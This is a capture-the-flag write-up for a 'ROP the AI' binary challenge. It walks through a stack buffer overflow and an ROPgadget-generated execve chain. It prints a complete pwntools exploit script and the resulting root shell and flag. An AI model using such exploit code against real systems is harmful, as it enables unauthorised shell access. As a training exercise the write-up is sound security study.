

# ROP the AI
easy | linux, exploit | 100 points

## Description
We managed to take back this configuration manager from the AI. However, we are unsure if the AI has tinkered with it somehow. Can you help us discover any vulnerabilities in the program and, if you find any, exploit them as proof of your work? 

## First Impressions
The title pretty much gives the solution away. ROP or [Return Oriented Programming](https://en.wikipedia.org/wiki/Return-oriented_programming) starts off with a buffer overflow, but since the program stack may not allow execution of code, you use existing instructions in the program to execute your command. These set of instructions are called "gadgets". 

It's a concept I've generally been intimidated to learn as I find lower level code a bit intimidating in general. However, I finally decided to give it a shot through this challenge.

The challenge came with a binary file, `ROP-the-AI`, and a remote server, where we could send our exploit and get the flag.

```bash
$ file ROP-the-AI
ROP-the-AI: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=d36ba5c3974bde56b5f87c81775763923b71026c, for GNU/Linux 3.2.0, not stripped
$ ./ROP-the-AI
Please enter your preferred configuration:
a
Configuration set to a.
```

On opening the file in a reverse-engineering tool (Binary Ninja in this case), I found main(), which calls vuln().



I figured that var_78 (user input) was prone to a buffer overflow attack, but I needed to look at some tutorials for what payload to overflow the buffer with. This meant:
- finding out the point at which the buffer overflows
- knowing what payload to enter as input 

## Solution

After some manual testing, I found the buffer overflow taking place at 120 bytes.

For the ROP part of the challenge, I tried to follow two tutorials ([here](https://www.youtube.com/watch?v=i5-cWI_HV8o) and [here](https://www.youtube.com/watch?v=TOImpHQvmpo) if you're interested in watching). However, either they didn't work as intended or I got impatient and stopped halfway through. I grapsed the basic idea, but was struggling to apply to this challenge. Surely a topic I would like to learn about further.

However, watching them did help, as through one of the tutorials, I found a tool called [ROPgadget](https://github.com/JonathanSalwan/ROPgadget). While I used this initially to list out the gadgets, I found out that it also automates the ROP chain creation process! The tool finds the ROP gadgets, finds a way to execute a shell using the gadgets and prints out the corresponding python code that the user can then use in their script.

So with this information, I ran ROPgadget and created a Python script using [pwntools](https://github.com/Gallopsled/pwntools) and the code provided by ROPgadget. The tutorials also proved helpful in the creation of the script.

```bash
$ python3 ROPgadget --binary ROP-the-AI --rop-chain
...
Unique gadgets found: 37035

ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

	[+] Gadget found: 0x44dbc1 mov qword ptr [rsi], rax ; ret
	[+] Gadget found: 0x4087ce pop rsi ; ret
	[+] Gadget found: 0x44c043 pop rax ; ret
	[+] Gadget found: 0x43c165 xor rax, rax ; ret

- Step 2 -- Init syscall number gadgets

	[+] Gadget found: 0x43c165 xor rax, rax ; ret
	[+] Gadget found: 0x46da90 add rax, 1 ; ret
	[+] Gadget found: 0x46da91 add eax, 1 ; ret

- Step 3 -- Init syscall arguments gadgets

	[+] Gadget found: 0x401931 pop rdi ; ret
	[+] Gadget found: 0x4087ce pop rsi ; ret
	[+] Gadget found: 0x4016eb pop rdx ; ret

- Step 4 -- Syscall gadget

	[+] Gadget found: 0x4011fa syscall

- Step 5 -- Build the ROP chain

#!/usr/bin/env python3
# execve generated by ROPgadget
<more python code>
...
```

**[rta-sol.py](src/rta-sol.py)**
```python
#!/usr/bin/env python3
# execve generated by ROPgadget

from pwn import *
from struct import pack

# Padding goes here
rop = b''

rop += pack('<Q', 0x00000000004087ce) # pop rsi ; ret
rop += pack('<Q', 0x00000000004b50e0) # @ .data
rop += pack('<Q', 0x000000000044c043) # pop rax ; ret
rop += b'/bin//sh'
rop += pack('<Q', 0x000000000044dbc1) # mov qword ptr [rsi], rax ; ret
rop += pack('<Q', 0x00000000004087ce) # pop rsi ; ret
rop += pack('<Q', 0x00000000004b50e8) # @ .data + 8
rop += pack('<Q', 0x000000000043c165) # xor rax, rax ; ret
rop += pack('<Q', 0x000000000044dbc1) # mov qword ptr [rsi], rax ; ret
rop += pack('<Q', 0x0000000000401931) # pop rdi ; ret
rop += pack('<Q', 0x00000000004b50e0) # @ .data
rop += pack('<Q', 0x00000000004087ce) # pop rsi ; ret
rop += pack('<Q', 0x00000000004b50e8) # @ .data + 8
rop += pack('<Q', 0x00000000004016eb) # pop rdx ; ret
rop += pack('<Q', 0x00000000004b50e8) # @ .data + 8
rop += pack('<Q', 0x000000000043c165) # xor rax, rax ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x00000000004011fa) # syscall

p = remote('portal.hackazon.org', 17007)
payload = b'A'*120 + rop

payload = payload.ljust(1000, b'\x00')

p.sendline(payload)

p.interactive()
```

```bash
$ python3 rta-sol.py
$ python3 sol.py
[+] Opening connection to portal.hackazon.org on port 17007: Done
[*] Switching to interactive mode
Please enter your preferred configuration:
Configuration set to AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA·@.
$ whoami
root
$ ls
bin    dev      home     lib64     mnt       proc  sbin  tmp
binary    etc      lib     libx32  nw_ready  root  srv   usr
boot    flag.txt  lib32  media     opt       run     sys   var
$ cat flag.txt
CTF{80b40aac6d527b084665bbd5ea3a0f68}
$
[*] Interrupted
[*] Closed connection to portal.hackazon.org port 17007
```

Flag: `CTF{80b40aac6d527b084665bbd5ea3a0f68}`


